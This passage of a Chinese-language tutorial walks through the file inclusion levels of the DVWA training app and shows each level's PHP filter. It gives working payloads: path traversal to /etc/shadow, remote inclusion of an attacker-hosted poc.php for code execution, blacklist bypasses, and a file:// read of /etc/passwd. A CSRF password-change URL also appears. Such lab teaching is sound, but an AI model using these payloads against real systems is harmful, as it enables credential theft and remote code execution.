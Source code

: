 没有对我们的输入做任何过滤，可以说是一点安全意识都没有。随便利用。举个栗子：[ [http://localhost/dvwa/vulnerabilities/fi/page=/etc/shadow][16] ]( [http://localhost/dvwa/vulnerabilities/fi/page=/etc/shadow][16] )。当然也可以在服务端写下poc.php,利用http协议实现代码执行[ [http://localhost/dvwa/vulnerabilities/fi/page=http://][18] ]( [http://localhost/dvwa/vulnerabilities/fi/page=http://][18] )[ip]/poc.php。前提条件是allow_url_fopen和allow_url_include处于打开状态。
 
 **Medium level** 

```php
<?php 
// The page we wish to display 
$file = $_GET[ 'page' ]; 

// Input validation 
$file = str_replace( array( "http://", "https://" ), "", $file ); 
$file = str_replace( array( "../", "..\"" ), "", $file ); 
```
 
首先这个基于黑名单的过滤，压根就没有把本地绝对路径考虑到，其次可以使用…/./,htthttpp进行绕过。
 
 **High level** 

```php
<?php 

// The page we wish to display 
$file = $_GET[ 'page' ]; 

// Input validation 
if( !fnmatch( "file*", $file ) && $file != "include.php" ) { 
    // This isn't the page we want! 
    echo "ERROR: File not found!"; 
    exit; 
} 
```
 
这是一种基于白名单的过滤，只接受前缀为“file”的文件，咋一看很ok，然而却疏忽了file协议。[ [http://localhost/vulnerabilities/fi/?page=file:///etc/passwd][20] ]( [http://localhost/vulnerabilities/fi/?page=file:///etc/passwd][21] )。
 
 **Impossible level** 

```php
<?php 

// The page we wish to display 
$file = $_GET[ 'page' ]; 

// Only allow include.php or file{1..3}.php 
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) { 
    // This isn't the page we want! 
    echo "ERROR: File not found!"; 
    exit; 
} 
```
 
这是相当的白名单，你赢了。但是想要文件量巨大的场景中维护这么一张白名单有点不太理智，所以笔者这种硬编码的方式不太常用。
 

[6]: http://php.net/manual/zh/ini.core.php#ini.variables-order
[7]: http://php.net/manual/zh/ref.filesystem.php
[8]: http://php.net/manual/zh/ref.info.php
[9]: http://php.net/manual/zh/book.exec.php
[10]: http://php.net/manual/zh/types.comparisons.php
[11]: http://php.net/manual/zh/pdo.prepared-statements.php%E3%80%82
[12]: http://php.net/manual/zh/pdo.constants.php%E3%80%82
[13]: http://www.freebuf.com/articles/web/118352.html
[14]: http://localhost/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#
[15]: https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_header_name
[16]: http://localhost/dvwa/vulnerabilities/fi/page=/etc/shadow
[17]: http://localhost/dvwa/vulnerabilities/fi/page=/etc/shadow
[18]: http://localhost/dvwa/vulnerabilities/fi/page=http://
[19]: http://localhost/dvwa/vulnerabilities/fi/page=http://
[20]: http://localhost/vulnerabilities/fi/?page=file:///etc/passwd
[21]: http://localhost/vulnerabilities/fi/?page=file:///etc/passwd
[22]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types%EF%BC%89
[23]: http://php.net/manual/zh/function.getimagesize.php%EF%BC%89
[24]: file:///%24%7Btarget_path%7D%24%7Btarget_file%7D
[25]: https://www.sitepoint.com/top-10-php-security-vulnerabilities/
[26]: http://blog.jobbole.com/53821/
[27]: https://www.owasp.org/index.php/PHP_Configuration_Cheat_Sheet
[28]: http://www.dvwa.co.uk/
[29]: https://github.com/Go0s/LFIboomCTF
[0]: https://img2.tuicool.com/q2YJVvU.jpg
[1]: =#
[2]: http://192.168.153.130/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#
[3]: https://img1.tuicool.com/2maeyaz.jpg
[4]: \"{$avatar}\"
[5]: \"{$avatar}\"